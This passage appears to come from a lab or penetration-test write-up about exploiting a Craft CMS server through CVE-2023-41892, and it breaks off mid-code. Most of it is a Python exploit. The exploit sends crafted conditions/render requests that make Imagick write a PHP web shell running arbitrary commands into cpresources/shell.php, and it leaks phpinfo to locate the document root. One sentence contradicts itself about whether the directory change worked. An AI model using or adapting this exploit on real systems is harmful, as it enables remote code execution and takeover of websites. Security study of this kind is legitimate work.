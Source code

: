 ```
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Mon, 11 Dec 2023 19:09:13 GMT
Content-Type: text/html; charset=UTF-8
connection: close
X-Powered-By: Craft CMS
Content-Length: 16230

<!DOCTYPE html>
<html>
```

This CMS has recently been hit by a publicly known vulnerability [CVE-2023-41892](https://nvd.nist.gov/vuln/detail/CVE-2023-41892). Of which the exploit can be found here [Exploit](https://gist.github.com/gmh5225/8fad5f02c2cf0334249614eb80cbf4ce). This exploit code did not work out of the box because it would try to write in the document root. However this didn't work when i moved the exploit to the **cpresources** directory another commonly used directory to host assets that are publicly reachable for the application. The adjusted code would look like the following

```python
import requests
import re
import sys

headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.88 Safari/537.36"
}

def writePayloadToTempFile(documentRoot):

    data = {
        "action": "conditions/render",
        "configObject[class]": "craft\elements\conditions\ElementCondition",
        "config": '{"name":"configObject","as ":{"class":"Imagick", "__construct()":{"files":"msl:/etc/passwd"}}}'
    }

    files = {
        "image1": ("pwn1.msl", """<?xml version="1.0" encoding="UTF-8"?>
        <image>
        <read filename="caption:&lt;?php @system(@$_REQUEST['cmd']); ?&gt;"/>
        <write filename="info:DOCUMENTROOT/cpresources/shell.php">
        </image>""".replace("DOCUMENTROOT", documentRoot), "text/plain")
    }

    response = requests.post(url, headers=headers, data=data, files=files, proxies={"http": "http://localhost:8080"})

def getTmpUploadDirAndDocumentRoot():
    data = {
        "action": "conditions/render",
        "configObject[class]": "craft\elements\conditions\ElementCondition",
        "config": r'{"name":"configObject","as ":{"class":"\\GuzzleHttp\\Psr7\\FnStream", "__construct()":{"methods":{"close":"phpinfo"}}}}'
    }

    response = requests.post(url, headers=headers, data=data, proxies={"http": "http://localhost:8080"})

    pattern1 = r'<tr><td class="e">upload_tmp_dir<\/td><td class="v">(.*?)<\/td><td class="v">(.*?)<\/td><\/tr>'
    pattern2 = r'<tr><td class="e">\$_SERVER\[\'DOCUMENT_ROOT\'\]<\/td><td class="v">([^<]+)<\/td><\/tr>'
```